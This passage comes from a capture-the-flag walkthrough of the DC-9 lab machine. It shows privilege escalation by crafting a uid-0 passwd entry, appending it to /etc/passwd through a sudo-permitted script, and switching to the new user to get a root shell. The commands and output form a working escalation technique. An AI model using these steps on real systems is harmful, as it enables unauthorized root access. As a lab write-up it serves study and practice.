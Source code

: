 We create a file with the following (user.txt)

```bash
user:$1$buZKpXN3$NPI6IUJkJTJKQTwGdqfyo1:0:0:user:/root:/bin/bash
```

We execute script

```bash
sudo /opt/devstuff/dist/test/test user.txt /etc/passwd
```

we change the new user as root

```bash
fredf@dc-9:~$ su user
Password:
root@dc-9:/home/fredf# whoami
root
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2017.png)

And that's it

Happy Hacking!
